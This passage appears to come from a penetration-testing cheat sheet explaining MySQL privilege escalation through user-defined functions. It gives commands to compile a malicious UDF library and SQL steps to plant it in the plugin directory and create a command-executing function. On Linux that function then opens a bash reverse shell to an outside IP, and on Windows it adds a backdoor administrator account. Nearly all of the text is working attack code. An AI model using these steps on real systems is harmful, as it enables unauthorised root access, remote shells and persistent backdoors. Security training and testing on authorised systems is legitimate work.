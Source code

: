 
### Privilege Escalation via library

If the **mysql server is running as root** (or a different more privileged user) you can make it execute commands. For that, you need to use **user defined functions**. And to create a user defined you will need a **library** for the OS that is running mysql.

The malicious library to use can be found inside sqlmap and inside metasploit by doing **`locate "*lib_mysqludf_sys*"`**. The **`.so`** files are **linux** libraries and the **`.dll`** are the **Windows** ones, choose the one you need.

If you **don't have** those libraries, you can either **look for them**, or download this [**linux C code**](https://www.exploit-db.com/exploits/1518) and **compile it inside the linux vulnerable machine**:

```bash
gcc -g -c raptor_udf2.c
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```

Now that you have the library, login inside the Mysql as a privileged user (root?) and follow the next steps:

#### Linux

```sql
# Use a database
use mysql;
# Create a table to load the library and move it to the plugins dir
create table npn(line blob);
# Load the binary library inside the table
## You might need to change the path and file name
insert into npn values(load_file('/tmp/lib_mysqludf_sys.so'));
# Get the plugin_dir path
show variables like '%plugin%';
# Supposing the plugin dir was /usr/lib/x86_64-linux-gnu/mariadb19/plugin/
# dump in there the library
select * from npn into dumpfile '/usr/lib/x86_64-linux-gnu/mariadb19/plugin/lib_mysqludf_sys.so';
# Create a function to execute commands
create function sys_exec returns integer soname 'lib_mysqludf_sys.so';
# Execute commands
select sys_exec('id > /tmp/out.txt; chmod 777 /tmp/out.txt');
select sys_exec('bash -c "bash -i >& /dev/tcp/10.10.14.66/1234 0>&1"');
```

#### Windows

```sql
# CHech the linux comments for more indications
USE mysql;
CREATE TABLE npn(line blob);
INSERT INTO npn values(load_files('C://temp//lib_mysqludf_sys.dll'));
show variables like '%plugin%';
SELECT * FROM mysql.npn INTO DUMPFILE 'c://windows//system32//lib_mysqludf_sys_32.dll';
CREATE FUNCTION sys_exec RETURNS integer SONAME 'lib_mysqludf_sys_32.dll';
SELECT sys_exec("net user npn npn12345678 /add");
SELECT sys_exec("net localgroup Administrators npn /add");
```
